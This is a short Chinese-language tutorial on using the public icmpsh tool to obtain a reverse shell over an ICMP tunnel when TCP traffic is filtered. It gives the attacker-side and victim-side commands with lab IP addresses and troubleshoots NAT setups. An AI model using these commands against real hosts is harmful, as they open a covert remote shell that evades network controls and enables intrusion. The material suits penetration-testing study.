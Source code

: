 项目地址：[https://github.com/bdamele/icmpsh](https://github.com/bdamele/icmpsh)
### 背景
很多时候网络运维人员只会允许流量进入已知主机，端口和服务（在入口处过滤），当身处DMZ区域，通过TCP获取反向shell是不可能的，但是如果使用UDP（DNS隧道）或者icmp那么还是可以尝试
### ICMPSH
icmpsh是由python2 编写的，Linux 默认自带python2，但是无pip2，下载pip2()，然后下载项目(git clone )
```shell
// 下载pip2 
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
// 安装pip2，默认python 版本是python2
python get-pip.py
// 下载项目
git clone https://github.com/bdamele/icmpsh
```
### 使用方法
#### 条件

1. 攻击机关闭icmp回应包
2. 受害机能发送icmp包到攻击机
```shell
pip install impacket -i https://pypi.douban.com/simple
// 首先在攻击机上关闭icmp回显
sysctl -w net.ipv4.icmp_echo_ignore_all=1
// 其次，192.168.93.131是攻击机
python icmpsh_m.py 192.168.93.131 192.168.93.134
// 最后，在受害机执行
icmpsh.exe -t 192.168.93.131
```
![image.png](./ICMP隧道反弹shell.assets/2023_05_19_10_23_33_pERwybWN.png)
### 两个问题

1. 当前演示的环境是windows，那么受害机是Linux如何getshell ？

Linux 主机暂时未找到解决办法。。

2. 为什么使用虚拟机（NAT模式下），主机作为受害者却始终不能getshell ？

因为NAT模式是交换机NAT，从宿主机走出来的流量要先经过`192.168.93.1` 然后才能走到192.168.93.131(攻击机)，所以我们需要监听的是交换机的地址
![image.png](./ICMP隧道反弹shell.assets/2023_05_19_10_23_34_HxiklTGn.png)
